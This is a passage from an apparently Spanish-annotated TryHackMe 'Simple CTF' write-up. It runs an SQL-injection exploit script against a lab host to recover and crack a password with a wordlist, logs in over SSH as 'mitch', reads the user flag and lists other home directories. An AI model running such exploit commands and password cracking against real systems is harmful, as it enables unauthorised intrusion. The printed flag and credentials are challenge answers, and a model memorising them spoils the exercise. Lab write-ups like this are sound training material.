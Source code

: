 ```

cd tmp/tryhackme/easyctf
source ~/.venv2/bin/activate
pip install requests, termcolor

```

```
python2 46635.py -u http://10.10.31.228/simple --crack -w  /usr/share/wordlists/rockyou.txt


[+] Salt for password found: 1dac0d92e9fa6bb2
[+] Username found: mitch
[+] Email found: admin@admin.com
[+] Password found: 0c01f4468bd75d7a84c7eb73846e8d96
[+] Password cracked: secret

```

#### Where can you login with the details obtained?

ssh
 
#### What's the user flag?

#### Ingresamos por ssh  mitch:secret

```
ssh mitch@10.10.31.228 -p 2222 
 

Last login: Mon Aug 19 18:13:41 2019 from 192.168.0.190
$ ls
user.txt
$ cat user.txt
G00d j0b, keep up!

```


### Is there any other user in the home directory? What's its name?

sunbath

#### Encontramos al usuario sunbath

```
cd /home
$ ls -la
total 16
drwxr-xr-x  4 root    root    4096 aug 17  2019 .
drwxr-xr-x 23 root    root    4096 aug 19  2019 ..
drwxr-x---  3 mitch   mitch   4096 aug 19  2019 mitch
drwxr-x--- 16 sunbath sunbath 4096 aug 19  2019 sunbath

```
